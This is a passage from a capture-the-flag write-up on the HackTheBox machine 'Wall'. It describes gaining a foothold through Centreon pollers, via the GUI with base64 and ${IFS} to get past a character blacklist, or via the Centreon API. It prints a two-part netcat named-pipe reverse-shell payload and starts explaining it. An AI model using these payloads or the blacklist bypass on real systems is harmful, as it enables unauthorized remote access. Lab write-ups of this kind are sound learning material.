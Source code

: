 What we got when we tried to get a reverse shell
{:refdef: style="text-align: center;"}
![403 Forbidden](../../assets/img/writeups/htb/wall/403_forbidden.png)
{: refdef}

#### The "Better Way"

**This is a retrospection based on watching IPPSEC and reading other writeups**

The better way at handling getting user on this box is:
1. Create our payload
2. Encode it with Base64
3. Use ${IFS} as a space (since space is a blacklisted character)
4. Modify the central poller to contain our payload, then call the debug function through the GUI

I really wish I had thought of this way, but it was great to learn another approach from others.

#### My Way

Now for the way I actually did it. It leverages the Centreon API, and does not touch the GUI. Hindsight is 20/20, but I think this was still an interesting way to solve the problem and utilize the API.

I wrote a python script that can be found [here](https://github.com/frank-cerny/HackTheBox/tree/master/wall/scripts){:target="_blank"} (much too long for an article) but the steps taken are as follows:
1.	Get a valid session token by submitting a POST request through the login form
2.	Set all current pollers to be non-local host
3.	Create our poller
4.	Modify it to contain part 1 of our payload and execute
5.	Modify it to contain part 2 of our payload and execute
6.	Delete the poller (reverse shell should be active)
7.	Reset all pollers that were originally localhost back to localhost

Payload part 1: mknod /tmp/backpipe p  
Payload part 2: /bin/sh 0</tmp/backpipe | nc {} {} 1>/tmp/backpipe &

How does this payload work?

Part 1:
Create a special FIFO file called backpipe, inside /tmp. This creates a “named pipe,” and allows us to have our own I/O device of sorts on the machine. That is, we can redirect input and output to and from it, and use it in interesting ways.

[Pipe Documentation for more information](http://man7.org/linux/man-pages/man7/fifo.7.html){:target="_blank"}
